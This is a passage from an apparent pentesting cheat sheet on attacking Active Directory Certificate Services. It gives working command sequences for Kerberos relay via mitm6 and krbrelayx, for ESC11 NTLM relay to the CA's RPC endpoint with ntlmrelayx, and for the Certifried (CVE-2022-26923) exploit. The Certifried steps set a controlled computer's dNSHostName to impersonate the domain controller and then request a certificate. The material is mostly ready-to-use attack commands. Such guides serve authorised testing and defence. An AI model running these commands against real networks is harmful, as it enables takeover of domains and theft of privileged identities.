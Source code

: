 ##### Kerberos Relay

It is possible with the last versions of **mitm6** and **krbrelayx**.

```bash
#Setup the relay
sudo krbrelayx.py --target http://CA/certsrv -ip attacker_IP --victim target.contoso.local --adcs --template Machine

#Run mitm6
sudo mitm6 --domain contoso.local --host-allowlist target.contoso.local --relay CA.contoso.local -v
```

#### RPC Endpoint - ESC11

Certificate request can be realised through the **MS-ICPR** RPC endpoint. If the flag `IF_ENFORCEENCRYPTICERTREQUEST` is enabled on the CA, NTLM signing is required and no relay is possible (default configuration). But, **Windows Servers < 2012** and **Windows XP** clients need the flag to be removed for compatibility.

If `Enforce Encryption for Requests : Disabled` appears on the Certipy CA enumeration output, relay is possible (use this Certipy [fork ](https://github.com/sploutchy/Certipy)and this Impacket [fork ](https://github.com/sploutchy/impacket)for the moment):

```bash
ntlmrelayx.py -t "rpc://ca.contoso.local" -rpc-mode ICPR -icpr-ca-name "ca_name" -smb2support
```

### Certifried (CVE-2022–26923)

The CVE is well explained [here](https://www.thehacker.recipes/ad/movement/ad-cs/certifried). The right to create a computer account or the write rights over an existing account are needed.

#### Windows

```powershell
#Clean the SPNs on the controlled computer account
Set-ADComputer <controlled_name> -ServicePrincipalName @{}
#Set the dNSHostName value to the name of a computer account to impersonate
Set-ADComputer <controlled_name> -DnsHostName dc.contoso.local
#Request a certificate
Certify.exe request /ca:CA.contoso.local\CA /template:"Machine"
```

#### Linux

To check if the CVE is present, request un certificate as a user. If Certipy print `Certificate object SID is [...]`, the CVE cannot be exploited.

```bash
#Clean the SPNs on the controlled computer account
bloodyAD.py -u user1 -p password -d contoso.local setAttribute 'CN=<controlled_name>,CN=Computers,DC=contoso,DC=local' serviceprincipalname '[]'

#Set the dNSHostName value to the name of a computer account to impersonate
bloodyAD.py -u user1 -p password -d contoso.local setAttribute 'CN=<controlled_name>,CN=Computers,DC=contoso,DC=local' dnsHostName '["dc.contoso.local"]'

#Request a certificate
certipy req -u '<controlled_name>@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'Machine'
```
